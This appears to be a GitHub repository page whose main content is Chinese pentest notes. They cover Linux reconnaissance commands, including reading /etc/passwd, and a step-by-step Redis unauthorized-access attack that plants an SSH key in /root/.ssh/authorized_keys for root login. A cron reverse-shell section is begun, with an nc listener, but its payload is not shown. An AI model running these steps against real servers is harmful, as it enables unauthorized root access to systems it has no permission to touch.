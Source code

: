 ### …or create a new repository on the command line



```
echo "# Note-" >> README.md
git init
git add README.md
git commit -m "first commit"
git branch -M main
git remote add origin https://github.com/WANGDADAYA/Note-.git
git push -u origin main
```

### …or push an existing repository from the command line



```
git remote add origin https://github.com/WANGDADAYA/Note-.git
git branch -M main
git push -u origin main
```

### …or import code from another repository

You can initialize this repository with code from a Subversion, Mercurial, or TFS project.

笔记：

1、文件读取：

```
└─$ head -n 1 /etc/issue
Kali GNU/Linux Rolling \n \l

└─$ tail -n 1 /etc/passwd

   uname -a
   cat /proc/version
   head -n 1 /etc/issue   # 查看linux操作系统版本
   linux查看系统版本命令
       http://blog.csdn.net/zhuying_linux/article/details/6859286
   getconf LONG_BIT       # 查看系统是32位还是64位
   网络
   
   # ifconfig               # 查看所有网络接口的属性
   # iptables -L            # 查看防火墙设置
   # route -n               # 查看路由表
   # netstat -lntp          # 查看所有  监听端口
   # netstat -antp          # 查看所有已经建立的连接
   # netstat -s             # 查看网络统计信息
   
	find . -name "*vimrc*" | xargs grep -r "linebreak"
       #在当前目录下查找文件名中包含vimrc的所有文件,并在这些文件中查找包含"linebreak"关键字的文件中的与"linebreak"相关的行
```
```
https://www.lixiaoming.net/archives/12
在攻击机中生成ssh私钥和公钥，密码为空：ssh-keygen -t rsa

img
进入.ssh目录：cd .ssh/，将生成的公钥保存到1.txt：

(echo -e “\n\n”;cat id_rsa.pub;echo -e “\n\n”) > 1.txt

img
连接靶机的Redis，将刚生成的公钥1.txt写入redis

cat 1.txt | redis-cli 192.168.209.136 -x set crack

img
攻击机连接靶机redis：redis-cli -h 192.168.18.132

使用 config get dir 命令得到redis备份的路径，更改redis备份路径为ssh公钥存放目录（一般默认为/root/.ssh）并设置上传公钥的备份文件名字为authorized_keys：

config get dir

config set dir /root/.ssh

config set dbfilename “authorized_keys”

save

img
利用ssh免密登录到靶机：ssh -i id_rsa root@192.168.18.132

计划任务反弹shell

在权限足够的情况下，利用redis写入文件到计划任务目录下执行。
攻击机执行监听：nc -lnvp 4444

然后执行

img
```
